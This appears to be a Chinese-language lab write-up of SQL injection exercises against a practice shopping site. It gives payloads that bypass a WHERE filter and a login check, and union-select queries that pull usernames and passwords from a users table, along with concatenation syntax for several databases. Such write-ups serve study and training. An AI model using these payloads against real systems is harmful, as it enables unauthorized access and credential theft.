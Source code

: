 ### 绕过where筛选

```
Corporate gifts' and '1'='1
```

![image-20250520103305684](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520103305684.png)

### 绕过登录

```
administrator' and 1=1-- 
```

![image-20250520104052351](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520104052351.png)

### union 查询其他数据库

```
Gifts'and '1'='1
```

![image-20250520105121797](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520105121797.png)

order by 提示有 3 列数据。

![image-20250520152541668](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520152541668.png)

```
Accessories' union select username,password from users--+
```

![image-20250520155102841](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520155102841.png)

### union 查询其他数据库

```
Accessories' union select 1,'b'--+

# 这个环境的数据库要求 union select 字段数据类型和 select 匹配。
# 这个环境没有 group_concat 函数。
```

```
Accessories' union select 1,concat(username,':',password) from users--+
```

![image-20250520160114247](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520160114247.png)

可将多个字符串连接成一个字符串：

```plaintext
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [注意两字符串间的空格]
CONCAT('foo','bar')
```

